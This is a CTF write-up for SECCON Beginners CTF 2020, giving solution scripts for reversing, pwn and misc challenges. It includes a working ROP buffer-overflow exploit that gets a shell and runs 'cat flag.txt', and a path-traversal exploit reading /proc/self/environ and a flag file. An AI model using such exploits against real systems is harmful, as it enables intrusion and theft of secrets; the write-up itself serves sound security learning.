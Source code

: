 # SECCON Beginners CTF 2020

- https://github.com/SECCON/Beginners_CTF_2020

## rev

### mask

IDA または Ghidra で逆コンパイル

```c
local_98[local_e0] = local_d8[local_e0] & 0x75;
local_58[local_e0] = local_d8[local_e0] & 0xeb;

"atd4`qdedtUpetepqeUdaaeUeaqau"
"c`b bk`kj`KbababcaKbacaKiacki"
```

#### Solution 1

- https://gchq.github.io/CyberChef/#recipe=OR(%7B'option':'UTF8','string':'c%60b%20bk%60kj%60KbababcaKbacaKiacki'%7D)&input=YXRkNGBxZGVkdFVwZXRlcHFlVWRhYWVVZWFxYXU

#### Solution 2

```python
#!/usr/bin/env python3
a = bytes(b'atd4`qdedtUpetepqeUdaaeUeaqau')
b = bytes(b'c`b bk`kj`KbababcaKbacaKiacki')
print(bytes([x | y for x, y in zip(a, b)]).decode())
```

#### Solution 3

```python
#!/usr/bin/env python3
a = b'atd4`qdedtUpetepqeUdaaeUeaqau'
b = b'c`b bk`kj`KbababcaKbacaKiacki'
answer = ''
for i in range(len(a)):
    for c in range(0x20, 0x7f):
        if c & 0x75 == a[i] and c & 0xeb == b[i]:
            answer += chr(c)
            print(answer)
            break
```

#### solution 4

```python
#!/usr/bin/env python3
import angr
import claripy
proj = angr.Project('./mask', auto_load_libs=False)
max_len = 64
prefix = b'ctf4b{'
arg1 = claripy.BVS('arg1', 8*max_len)
state = proj.factory.entry_state(args=[proj.filename, arg1])
for c in arg1.chop(8):
    state.solver.add(claripy.Or(claripy.And(c >= 0x20, c <= 0x7e), c == 0))
for i, ch in enumerate(prefix):
    state.solver.add(arg1.get_byte(i) == ch)
simgr = proj.factory.simgr(state)
simgr.explore(find=lambda s: b'Correct' in s.posix.dumps(1),
              avoid=lambda s: b'Wrong' in s.posix.dumps(1))
print(simgr)
if simgr.found:
    found = simgr.found[0]
    flag = found.solver.eval(arg1, cast_to=bytes)
    print('FLAG:', flag.split(b'\x00')[0].decode())
else:
    print('No solution found')
```

## pwn

### beginners_stack

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, ROP, context, p64, process, log, remote
exe = context.binary = ELF('chall')
# io = process([exe.path])
io = remote('::1', 9001)
rop = ROP(exe)
rop.raw(rop.ret)
io.sendafter(b'Input: ', b'A'*0x20 + b'B'*0x8 + rop.chain()
             + p64(exe.symbols['win']))
io.sendlineafter(b'Congratulations!\n', b'cat flag.txt')
log.success(io.recvall(2).decode())
io.close()
```

## misc

### readme

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import log, remote
import re
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/environ')
log.success('CWD: %s', re.findall(
    b'PWD=(.+?)\x00', io.recvline())[0].decode(errors='ignore'))
io.close()
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/cwd/../flag')
log.success('FLAG: %s', io.recvline().decode(errors='ginore'))
io.close()
```

### emoemoencode

#### Solution 1

```python
#!/usr/bin/env python3
chars = [ord(ch) for ch in open('problem.txt').read()]
d = chars[0] - ord(b'c')
for ch in chars[:-1]:
    print(chr(ch - d), end='')
```
